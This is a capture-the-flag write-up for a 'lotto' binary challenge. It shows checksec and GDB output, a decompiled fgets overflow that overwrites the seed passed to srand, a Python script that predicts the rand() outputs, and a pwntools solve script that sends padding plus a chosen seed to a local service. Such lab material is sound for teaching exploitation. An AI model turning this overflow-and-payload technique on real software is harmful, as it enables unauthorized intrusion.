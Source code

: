 we are given a bin file , which is 
```
󰣇 bts_ctf/pwn/lotto ❯ file lotto.bin                                                                                                             
lotto.bin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b33dec53f8f1c8957618364105b1ede0b99ccd8f, for GNU/Linux 4.4.0, not stripped
```
󰣇 bts_ctf/pwn/lotto ❯ checksec --file=lotto.bin                                                                                                
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   40 Symbols	 No	0		3		lotto.bin
```

when we run the binary , it asks for 6 number as input , if all the 6 numbers are correct we get the flag, but each run there are random number generated with random seed, so need to somehow solve this.

The decompiled code , 
```
  fgets((char *)local_198,0x17b,stdin);
  __n = strlen((char *)local_198);
  memcpy(local_314,local_198,__n);
```
there is a fgets function, which takes long input than what we need , so this looks sus , when providing a long input , and looking at the GDB ,
```
*RIP  0x5555555553f1 (main+520) ◂— call srand@plt
───────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────
 ► 0x5555555553f1 <main+520>    call   srand@plt                   <srand@plt>
        seed: 0x61616364
 
   0x5555555553f6 <main+525>    lea    rax, [rbp - 0x330]
```
we can see that we can control the seed for random number.
it is at the offset of 307, so after this if we set it to know value we can find the number it generates , in my case i gonna set the value to 0xdeadbeef.

```
import ctypes

Load C's rand() from libc
libc = ctypes.CDLL("libc.so.6")
libc.srand(0xdeadbeef)

cp Generate same numbers the binary will use
for _ in range(6):
    print(libc.rand() % 49 + 1)  # assuming lotto numbers are 1–49

```
this is the python script to find the random numbers,

and
```
from pwn import *

p = remote('localhost',9000)

nums = b'11 9 42 12 16 3'
payload = nums + cyclic(307-len(nums)) + p64(0xdeadbeef) + cyclic(100)

p.sendline(payload)
p.interactive()
```
this is the solve script.